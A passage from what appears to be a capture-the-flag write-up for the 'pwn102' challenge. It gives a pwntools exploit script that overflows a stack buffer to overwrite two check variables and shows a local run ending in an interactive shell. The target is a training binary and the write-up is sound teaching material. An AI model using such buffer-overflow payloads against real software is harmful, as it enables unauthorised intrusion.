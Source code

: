 With this we know that the offset between the input buffer and check2 is `0x68` and the offset between the check2 and check1 is `0x5c`

Here's the exploit script that overwrites the value stored in the check variables

Solve script available at [Exploit](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/thm/pwn101/pwn102.py)

```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Binary filename
exe = './pwn102.pwn102'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'info'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

offset = 0x68

padding = b"A" * offset
check2 = p32(0xc0d3)
check1  = p32(0xc0ff33)

payload = padding + check2 + check1

# Send the payload
io.sendline(payload)

# Got Shell?
io.interactive()
```

Running it locally works 

```
└─$ python3 exploit.py
[+] Starting local process './pwn102.pwn102': pid 31962
[*] Switching to interactive mode
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 102          

I need badf00d to fee1dead
Am I right? Yes, I need c0ff33 to c0d3
$ ls -al
total 24
drwxr-xr-x 2 mark mark 4096 Feb 14 16:37 .
```